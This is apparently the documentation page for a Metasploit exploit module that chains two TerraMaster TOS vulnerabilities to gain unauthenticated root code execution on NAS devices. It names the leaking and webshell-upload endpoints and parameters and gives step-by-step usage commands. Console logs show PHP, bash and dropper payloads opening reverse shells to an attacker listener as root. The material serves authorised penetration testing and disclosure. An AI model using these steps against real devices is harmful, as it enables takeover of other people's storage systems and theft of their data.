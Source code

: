 ## Vulnerable Application

This module combines [CVE-2022-24990: Leaking sensitive information](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-24990) and
[CVE-2022-24989: Authenticated remote code execution](https://www.redpacketsecurity.com/terramaster-tos-command-execution-cve-2022-24989/)
to achieve an unauthenticated RCE by exploiting vulnerable endpoint `api.php?mobile/webNasIPS` leaking sensitive information such as
admin password hash and mac address to achieve unauthenticated access and use the vulnerable endpoint`api.php?mobile/createRaid` with
`POST` parameters `raidtype` / `diskstring` to upload a webshell and execute remote code as root on TerraMaster NAS devices.

Installing a vulnerable test bed requires a TerraMaster NAS device that can run `TOS 4.x`
This module has been tested against a TerraMaster `F2-221` Model with the specifications listed below:

* TerraMaster F2-221
* CPU: `x86`
* TOS Version: `4.2.08`

## Verification Steps

1. `use exploit/linux/http/terramaster_unauth_rce_cve_2022_24990`
1. `set RHOSTS <TARGET HOSTS>`
1. `set RPORT <port>`
1. `set LHOST <attacker host ip>`
1. `set LPORT <attacker host port>`
1. `set TARGET <0-PHP, 1-Unix command or 2-Linux Dropper>`
1. `exploit`
1. You should get a `bash` shell or `meterpreter` session depending on the `target` and `payload` settings.

## Options

### WEBSHELL
You can use this option to set the filename and extension (should be .php) of the webshell.
This is handy if you want to test the webshell upload and execution with different file names.
to bypass any security settings on the Web and PHP server.

### COMMAND
This option provides the user to choose the PHP underlying shell command function to be used for execution.
The choices are `system()`, `passthru()`, `shell_exec()` and `exec()` and it defaults to `passthru()`.
This option is only available when the target selected is either Unix Command or Linux Dropper.
For the native PHP target, by default the `eval()` function will be used for native PHP code execution.

## Scenarios

```
msf6 exploit(linux/http/terramaster_unauth_rce_cve_2022_24990) > info

       Name: TerraMaster TOS 4.2.29 or lower - Unauthenticated RCE chaining CVE-2022-24990 and CVE-2022-24989
     Module: exploit/linux/http/terramaster_unauth_rce_cve_2022_24990
   Platform: Unix, Linux
       Arch: cmd, php, x64, x86, aarch64
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2022-03-07

Provided by:
  h00die-gr3y <h00die.gr3y@gmail.com>
  Octagon Networks
  0xf4n9x

Module side effects:
 ioc-in-logs
 artifacts-on-disk

Module stability:
 crash-safe

Module reliability:
 repeatable-session

Available targets:
      Id  Name
      --  ----
  =>  0   PHP
      1   Unix Command
      2   Linux Dropper

Check supported:
  Yes

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.h
                                        tml
  RPORT      8181             yes       The target port (TCP)
  SSL        false            no        Negotiate SSL/TLS for outgoing connections
  SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
  TARGETURI  /                yes       Path to Terramaster Web console
  URIPATH                     no        The URI to use for this exploit (default is random)
  VHOST                       no        HTTP server virtual host
  WEBSHELL                    no        Web shell name with extension .php. Name will be randomly generated if left unset.


  When TARGET is not 0:

  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  COMMAND  passthru         yes       Use PHP command function (Accepted: passthru, shell_exec, system, exec)


  When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0
                                      .0.0 to listen on all addresses.
  SRVPORT  8080             yes       The local port to listen on.

Payload information:

Description:
  This module exploits an unauthenticated remote code execution vulnerability in TerraMaster TOS 4.2.29
  and lower by chaining two existing vulnerabilities, CVE-2022-24990 "Leaking sensitive information"
  and CVE-2022-24989, "Authenticated remote code execution".
  Exploiting vulnerable endpoint `api.php?mobile/webNasIPS` leaking sensitive information such as admin password
  hash and mac address, the attacker can achieve unauthenticated access and use another vulnerable endpoint
  `api.php?mobile/createRaid` with POST parameters `raidtype` and `diskstring` to upload a webshell and
  execute remote code as root on TerraMaster NAS devices.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2022-24990
  https://nvd.nist.gov/vuln/detail/CVE-2022-24989
  https://octagon.net/blog/2022/03/07/cve-2022-24990-terrmaster-tos-unauthenticated-remote-command-execution-via-php-object-instantiation/
  https://github.com/0xf4n9x/CVE-2022-24990
  https://attackerkb.com/topics/h8YKVKx21t/cve-2022-24990


View the full module info with the info -d command.
```

### TerraMaster F2-221 TOS 4.2.08 - PHP native `php/meterpreter/reverse_tcp` session
```
msf6 exploit(linux/http/terramaster_unauth_rce_cve_2022_24990) > set target 0
target => 0
msf6 exploit(linux/http/terramaster_unauth_rce_cve_2022_24990) > exploit

[*] Started reverse TCP handler on 192.168.10.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. TOS version is 4.2.08 and CPU architecture is X64.
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (39927 bytes) to 127.0.0.1
[+] Deleted cuckoo.php
[*] Meterpreter session 1 opened (192.168.10.1:4444 -> 192.168.10.2:55766) at 2023-06-10 12:20:10 +0000

meterpreter > sysinfo
Computer    : TerrorMaster
OS          : Linux TerrorMaster 4.13.16 SMP Mon Jun 10 14:20:56 CET 2023 x86_64
Meterpreter : php/linux
meterpreter > getuid
Server username: root
meterpreter >
```
### TerraMaster F2-221 TOS 4.2.08 - Unix Command `cmd/unix/reverse_bash` session
```
msf6 exploit(linux/http/terramaster_unauth_rce_cve_2022_24990) > set target 1
target => 1
msf6 exploit(linux/http/terramaster_unauth_rce_cve_2022_24990) > exploit

[*] Started reverse TCP handler on 192.168.10.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. TOS version is 4.2.08 and CPU architecture is X64.
[*] Executing Unix Command for cmd/unix/reverse_bash
[+] Deleted cuckoo.php
[*] Command shell session 2 opened (192.168.10.1:4444 -> 192.168.10.2:54556) at 2023-06-10 12:31:22 +0000

uname -a
Linux TerrorMaster 4.13.16 SMP Mon Jun 10 14:32:13 CET 2023 x86_64 GNU/Linux
id
uid=0(root) gid=0(root) groups=0(root)
```
### TerraMaster F2-221 TOS 4.2.08 - Linux Dropper `linux/x64/meterpreter/reverse_tcp` session
```
msf6 exploit(linux/http/terramaster_unauth_rce_cve_2022_24990) > set target 2
target => 2
msf6 exploit(linux/http/terramaster_unauth_rce_cve_2022_24990) > exploit

[*] Started reverse TCP handler on 192.168.10.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. TOS version is 4.2.08 and CPU architecture is X64.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Sending stage (3045348 bytes) to 127.0.0.1
[+] Deleted cuckoo.php
[*] Meterpreter session 3 opened (192.168.10.1:4444 -> 192.168.10.2:46174) at 2023-06-10 12:39:01 +0000
[*] Command Stager progress - 100.00% done (810/810 bytes)

meterpreter > sysinfo
Computer     : 192.168.10.2
OS           :  (Linux 4.13.16)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
meterpreter >
```

## Limitations
No limitations.
